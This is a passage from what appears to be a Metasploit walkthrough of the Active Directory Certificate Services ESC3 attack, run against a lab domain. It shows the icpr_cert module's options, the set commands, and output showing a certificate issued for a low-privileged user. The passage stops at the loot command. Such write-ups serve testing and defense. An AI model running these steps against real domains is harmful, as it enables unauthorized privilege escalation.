 Narrowing this list down to those we can actually enroll in as users, this leaves us with  `User` and `ESC3-Template2` as templates that can be used for the second part of this vulnerability.

We'll first get the cert using `ipcr_cert` with the `ESC3-Template1` certificate.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   ALT_DNS                         no        Alternative certificate DNS
   ALT_UPN                         no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                              yes       The target certificate authority
   CERT_TEMPLATE  User             yes       The certificate template
   ON_BEHALF_OF                    no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                             no        Certificate to request on behalf of
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framew
                                             ork/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

```